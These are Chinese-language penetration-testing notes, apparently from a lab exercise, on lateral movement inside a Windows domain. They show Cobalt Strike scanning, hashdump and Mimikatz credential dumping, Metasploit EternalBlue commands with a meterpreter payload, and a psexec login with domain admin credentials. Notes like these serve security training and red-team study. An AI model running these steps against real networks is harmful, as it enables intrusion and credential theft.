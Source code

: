 ~~~~
~~~~

~~~~
1. 内网横向探测
   获取到一个 cs 的 beacon 后可以目标内网情况和端口开放情况，在 beacon 上右键 -> 目
   标 -> 选择 net view 或者 port scan：
   可以在菜单栏中，view视窗的targets选项中查看
2. 用 cs 的 hashdump 读内存密码：hashdump，用 mimikatz 读注册表密码：logonpasswords。获取相应账户凭证或者：
   右键->Access->Dump Hashes（需要Administrator权限）
   右键->Access->Run Mimikatz
   可以在凭证栏中查看获取的凭证
~~~~

## 内网横向渗透攻击

### 1.MS17-010永恒之蓝

~~~~
search ms17-010
注意这里的payload必须设置为正向连接 bind_tcp
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
~~~~

### 2.CVE-2019-0708

windows RDP协议的漏洞 该漏洞成功率不高，而且极有可能把目标机打成蓝屏

### 3.psexec攻击

获得了域管理员 administrator 的账号密码

使用该域管理员账号密码利用 psexec 登录域内任何一台开启了admin$共享(该共享默认开启) 的主机。

注：由于提示需要修改密码，所以已将 god/administrator 的密码改为 Password@ 。

psexec.exe \\192.168.52.138 -u god\administrator -p Password@ cmd

### psexec 传递

~~~text
psexec 是微软 pstools 工具包中最常用的一个工具，也是在内网渗透中的免杀渗透利器。
psexec 能够在命令行下在对方没有开启 telnet 服务的时候返回一个半交互的命令行

原理是基于IPC共享，所以要目标打开 445 端口。
另外在启动这个 psexec 建立连接之后对方机器上会被安装一个服务。
获取凭据后对目标网段进行端口存活探测，因为是 psexec 传递登录，这里仅需探测445端口

命令：portscan ip网段 端口 扫描协议（arp、icmp、none） 线程

例如：portscan 10.10.10.0/24 445 arp 200
~~~

### IPC连接
